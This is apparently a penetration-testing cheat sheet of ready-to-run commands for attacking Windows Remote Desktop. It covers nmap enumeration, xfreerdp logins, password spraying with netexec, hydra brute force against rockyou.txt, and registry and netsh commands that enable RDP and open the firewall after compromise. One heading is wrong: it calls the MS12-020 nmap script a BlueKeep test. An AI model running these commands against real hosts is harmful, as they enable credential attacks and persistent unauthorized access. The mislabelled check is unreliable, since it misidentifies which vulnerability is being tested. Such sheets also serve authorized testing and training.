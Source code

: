 # RDP Enumeration (3389)

## Run nmap RDP scripts
```bash
nmap --script=rdp-* -p 3389 $IP
```

## Check for RDP encryption
```bash
nmap --script rdp-enum-encryption -p 3389 $IP
```

## Test for BlueKeep vulnerability
```bash
nmap --script rdp-vuln-ms12-020 -p 3389 $IP
```

## Connect with xfreerdp
```bash
# Add /d:domain.local for domain auth
xfreerdp /v:$IP /u:administrator /p:password /cert:ignore
```

## Connect with drive/clipboard sharing
```bash
# Add /drive:share,/tmp for drive sharing OR +clipboard for clipboard
xfreerdp /v:$IP /u:username /p:password /cert:ignore +clipboard
```

## Password spray with netexec
```bash
netexec rdp $IP -u users.txt -p 'Password123!' --continue-on-success
```

## Brute force RDP with hydra
```bash
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt -t 1 -V $IP rdp
```

## Enable RDP via registry
```bash
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

## Add firewall exception for RDP
```bash
netsh advfirewall firewall add rule name="Remote Desktop" dir=in action=allow protocol=TCP localport=3389
```

---